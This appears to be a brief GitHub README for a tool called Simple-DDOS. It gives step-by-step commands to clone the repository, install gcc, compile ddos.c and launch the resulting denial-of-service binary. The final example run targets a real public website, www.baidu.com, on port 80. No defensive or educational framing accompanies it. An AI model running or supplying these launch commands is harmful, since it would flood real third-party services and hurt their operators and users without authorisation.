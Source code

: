 `git clone git@github.com:Lampese/Simple-DDOS.git`
 `cd Simple-DDOS`

CentOS:

`yum install gcc`

`gcc -W -Wall ddos.c -o ddos`

Debian/Ubuntu

`apt-get install gcc`

`gcc -W -Wall ddos.c -o ddos`

at last

`./DDOS www.baidu.com 80`
